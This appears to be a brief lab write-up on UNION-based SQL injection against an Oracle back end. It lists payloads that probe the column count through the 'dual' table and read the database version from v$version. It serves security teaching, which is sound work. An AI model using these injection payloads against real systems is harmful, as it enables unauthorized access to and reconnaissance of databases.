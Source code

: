 We know the server is Oracle. Every `SELECT` statement must use `FROM`. For this purpose Oracle has a table called `dual`. Our payload will use that.

Starting by finding the number of columns.
```
' UNION SELECT NULL FROM dual --
' UNION SELECT NULL,NULL FROM dual --
```

And by searching version query for Oracle 

```
' UNION SELECT NULL,banner FROM v$version --
```

we can complete the lab.

